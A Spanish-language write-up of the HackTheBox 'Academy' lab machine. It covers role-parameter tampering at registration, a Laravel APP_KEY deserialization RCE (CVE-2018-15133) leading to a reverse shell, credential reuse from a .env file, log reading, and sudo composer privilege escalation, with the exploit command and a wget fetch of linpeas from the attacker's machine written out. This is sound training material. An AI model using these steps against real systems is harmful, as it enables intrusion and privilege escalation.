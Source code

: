 En proceso 24/08/2022
# ACADEMY 

![Academy](https://user-images.githubusercontent.com/87484792/186432393-eb7af503-7ecd-438a-928b-1cd0cb754b90.png)

## Datos de interés 

**Academy** es una máquina que fue diseñada para publicitar la academia oficial de HackTheBox. **Academy** es una buena máquina y muy entretenida.
Empezaremos con un panel de registro muy parecido al de HackTheBox, tras modificar un parametro del registro podemos iniciar como una cuenta Admin.
Descubriremos un subdominio que tras la explotación de una deserializacion en Lavarel obtendremos una shell gracias a RCE. Encontraremos una contraseña de usuario en un archivo *.env*, dicho usuario tendrá permisos de ADM por lo que podremos leer archivos de log, en ellos encontramos un inicio de sesión que nos permitirá un movimiento lateral a otro user del sistema. Dicho usuario contrendrá permisos de SUDO ante un binario vulnerable que nos otorgará acceso como root.

## Enumeración

`sudo nmap --min-rate 5000 -p- -vvv -sSCV -Pn -n -oN openPorts.txt 10.10.10.215` 

![image](https://user-images.githubusercontent.com/87484792/186436105-73f78571-10c3-4bd5-950c-c8aea3b7a3bb.png)

La enumeración con NMAP nos muestra tres puertos abiertos por TCP:

- 22 (SSH)
- 80 (HTTP)
- 33060 (MySqlx)

Como vemos en la enumeración, el puerto 80 nos redigirá a un dominio virtualizado **academy.htb**. Viendo esto, añadiremos este dominio a nuestro /etc/hosts

`10.10.10.215    academy.htb`

Hecho esto, veremos el contenido de la pagina. 

![image](https://user-images.githubusercontent.com/87484792/186438999-9624a08f-2a11-45b1-9f2a-9b28f9f506df.png)

En ella encontramos unicamente un *Login* y un *Register* 
Como no tengo ninguna credencial válida, iré a registrarme. Podriamos probar credenciales comunes pero ya adelanto que no servirá. 

![image](https://user-images.githubusercontent.com/87484792/186457342-4fe2fca4-9bda-4422-aafd-3907ac18ec52.png)

En el panel de Register me registro con `admin2:admin2`, parece funcional y tiene pinta de que puedo loguearme con estas credenciales.

![image](https://user-images.githubusercontent.com/87484792/186491032-732cb7aa-c711-451b-a8f7-34bf7c8a578d.png)


El panel de login me redirige a este home.php que emula a HackTheBox. Como podemos ver los links estan capados para no dirigir a ningún lado, así que por lo que parece esto es un rabbit hole, o al menos, no es un camino útil. Podemos fuzzear a ver si encontramos algo en el panel principal, todos los archivos parecen ser *.php* así que fuzearemos con esta extensión.

![image](https://user-images.githubusercontent.com/87484792/186491864-25383487-fab4-4f74-8c53-b3e64ecde121.png)

**admin.php** me llama muchisimo la atención. Echemos un ojo.

![image](https://user-images.githubusercontent.com/87484792/186492096-a13675cf-7315-4111-b838-c6c1f2eb2074.png)

## Shell www-data

Al parecer es otro login, pero como se puede ver en el titulo, es un login de cuentas administradores.
Podiamos intentar buscar las credenciales, o bruteforcearlo, pero antes de todo.. echemos un ojo al comportamiento de la web cuando registramos una cuenta nueva.
Utilizaremos BurpSuite para enviar las request a traves de un proxy, en él, visualizaremos la data que enviamos.

![image](https://user-images.githubusercontent.com/87484792/186492718-7f9b21c1-ac7c-4293-9c42-81e046afe846.png)

**roleid** parece ser un controlador que asigna a la cuenta un "Rol". El valor inicial es un 0, pero... ¿que pasa si lo cambiamos de valor? en este caso un 1.
La creación de la cuenta es exitosa, y al probarlo en el admin.php nos da como resultado el poder adentrarnos en una "lista/tabla de tareas"

![image](https://user-images.githubusercontent.com/87484792/186493573-fa1110cb-2096-487b-9409-65cab9fe9274.png)

Tenemos un subdominio nuevo que seria muy raro que pudiesemos encontrar en un diccionario común, así que agregemoslo al */etc/hosts*

Tras ingresar en él, podemos ver que estamos antes Laravel, linkeos de rutas absolutas y algo muy interesante. **APP_KEY** se nos muestra en los archivos de configuración. En Laravel Framework hasta 5.5.40 y 5.6.x hasta 5.6.29, la ejecución remota de código puede ocurrir como resultado de una llamada de deserialización en un valor X-XSRF-TOKEN potencialmente no confiable, se presenta como CVE-2018-15133 y hay exploits disponibles.

![image](https://user-images.githubusercontent.com/87484792/186663935-bf62f34b-8f0a-426a-a872-970a791bb7a5.png)

Utilizaré algún exploit de Github, no parece muy dificil de utilizar. Tras leer un poco el exploit podemos poner un modo `--interactive` para otorgar una shell en vez de ejecutar un comando especifico. El comando quedaria así:

`python3 pwn_laravel.py http://dev-staging-01.academy.htb/ "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=" --interactive`

![image](https://user-images.githubusercontent.com/87484792/186666733-7efeb5d1-f52c-4831-b112-899bcc52f3bd.png)

Me mandaré una shell a netcat, haré un tratamiento de la TTY y empezaré a investigar un poco.

## www-data ->  cry0l1t3

Tras lo anterior quedó mejor para trabajar, ahora toca investigar.

En la pagina de Laravel veiamos que habia ciertas variables de configuración, estas variables se pueden encontrar en **.env**, donde aparecian usuarios y una contraseña "secreta". Este archivo pertenecia al subdominio encontrado, pero ¿Que pasa si lo buscamos en el academy? 

![image](https://user-images.githubusercontent.com/87484792/186669255-fee56be3-9adf-4258-b7f6-38dd305ea2a5.png)

Encontramos una contraseña, probemos a ver a que usuario pertenece.

![image](https://user-images.githubusercontent.com/87484792/186670048-dbeb3978-78cd-4bfc-af38-fb0fa44234a1.png)

El usuario es cry0l1t3, me conectaré por SSH. 

## cry0l1t3 -> Mrb3n

Lo que normalmente suelo hacer una vez entro como un usuario, es visualizar a que grupos pertenezco. Esto nos da información sobre los privilegios que tenemos sobre el sistema 

![image](https://user-images.githubusercontent.com/87484792/186673917-ae0c889b-0bae-4a81-ad26-c5ef44347ca9.png)

Pertenecemos al grupo **ADM**, este grupo nos permite leer archivos logs en */var/logs/*. Esto es muy bueno porque tenemos la posibilidad de visualizar logs de inicios de sesión. **linpeas** nos ayudará a leer todos los archivos criticos del sistema. Me lo traeré desde mi máquina y lo ejecutaré en la máquina victima.

Máquina atacante:

`python3 -m http.server 80`

Máquina victima: 

```
wget http://ip/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image](https://user-images.githubusercontent.com/87484792/186680200-c25e5629-7b9f-42a1-82b1-2a302edebaab.png)

Linpeas encontró un inicio de sesión sobre el usuario mrb3n. `su mrb3n` y entramos a su usuario.

## mrb3n -> root

Una vez dentro de mrb3n, obtenemos una shell en "sh", ejecutamos bash y obtendremos una shell en bash.
Nuevamente me fijo en los grupos asignados al usuario, pero no hay ninguno más alla del propio grupo de usuario.
El siguiente paso que suelo hacer es verificar si tenemos algún permiso de SUDO, en este caso si.

![image](https://user-images.githubusercontent.com/87484792/186684026-334868e9-daa6-47f3-aeb5-16aa3e768d57.png)

Tenemos la posibilidad de ejecutar como cualquier usuario *sudo* el binario composer.

```
Composer es un sistema de gestión de paquetes para programar en PHP el cual provee los formatos estándar necesarios para manejar dependencias y librerías de PHP
```

Hay una pagina llamada **GTFOBins** donde podemos ver si el binario es vulnerable, y como explotarlo, para conseguir una escalada de privilegios.
En este caso es vulnerable, podemos escalar por SUDO, así que seguiremos los pasos.

![image](https://user-images.githubusercontent.com/87484792/186684937-86a89b38-87df-446b-9b17-1f1ffbf1e650.png)





